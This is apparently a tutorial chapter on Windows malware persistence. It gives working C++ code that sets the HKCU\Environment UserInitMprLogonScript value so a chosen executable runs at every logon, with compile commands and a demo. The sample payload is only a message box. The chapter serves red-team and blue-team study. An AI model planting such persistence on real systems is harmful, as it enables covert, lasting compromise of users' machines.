



\newpage
\subsection{86. malware development: persistence - part 20. UserInitMprLogonScript (Logon Script). Simple C++ example.}

﷽

{width="80%"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via `UserInitMprLogonScript` value.     

### UserInitMprLogonScript

Windows enables the execution of logon scripts whenever a user or group of users logs into a system. Adding a script's path to the `HKCU\Environment\UserInitMprLogonScript` Registry key accomplishes this. So, to establish persistence, hackers may utilize Windows logon scripts automatically executed upon logon initialization.      

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox application (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
setting UserInitMprLogonScript value
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // env
  const char* env = "Environment";

  // evil app
  const char* exe = "Z:\\2022-12-09-malware-pers-20\\hack.exe";

  // environment
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)env, 0 , KEY_WRITE, 
  &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_CURRENT_USER\Environment" /v "UserInitMprLogonScript" /t 
    // REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UserInitMprLogonScript", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple. Just set `UserInitMprLogonScript` key value under `HKCU\Environment` to the full path of our "malware" - `Z:\\2022-12-09-malware-pers-20\hack.exe`.     

### demo

Let's go to see everything in action. First of all, check Registry:      

```powershell
reg query "HKCU\Environment" /s
```

{width="80%"}    


Then, compile our "malware" at the attacker's machine (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

And for checking correctness, try to run `hack.exe` at the victim's machine (`Windows 10 x64` in my case):    

```powershell
.\hack.exe
```

{width="80%"}    

As you can see, our "malware" works perfectly.    

At the next step, let's go to compile our persistence script at the attacker's machine:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

And run it at the attacker's machine:    

```powershell
.\pers.exe
```

Then, check our Registry key values again:    

```powershell
reg query "HKCU\Environment" /s
```

{width="80%"}    

So, as you can see, the key (`UserInitMprLogonScript`) value is set.    

That's all. Try to logout and login:     

{width="80%"}    

{width="80%"}    

And after a few milliseconds, our "malware", `meow-meow` popped up:     

{width="80%"}    

Then, if we open Process Hacker and check `hack.exe` properties:     

{width="80%"}    

{width="80%"}    

we see that the parent process is "non-existent" process.    

If you have studied the windows internals at least a little, you know that exists processes which have "non-existent" process as parent. For example, Windows Explorer - `explorer.exe`. Parent process is `userinit.exe` or `winlogon.exe`, but can be anything `.exe` using `explorer.exe`. Parent will show as `<Non-existent Process>` since `userinit.exe` terminates itself. Another example is Windows Logon - `winlogon.exe`. Parent is "does not exist" since `smss.exe` exits.      

If we check `hack.exe` properties via [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer), we can see "Autostart Location" value:    

{width="80%"}    

Everything is worked perfectly! =^..^=

After the end of experiment, delete the key:    

```powershell
Remove-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript"
```

{width="80%"}    

This persistence trick is used by [APT28](https://attack.mitre.org/groups/G0007) group and software like [Attor](https://attack.mitre.org/software/S0438) and [Zebrocy](https://attack.mitre.org/software/S0438) at the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)        
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007)      
[Attor](https://attack.mitre.org/software/S0438)        
[Zebrocy (Trojan)](https://attack.mitre.org/software/S0438)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-12-09-malware-pers-20)     
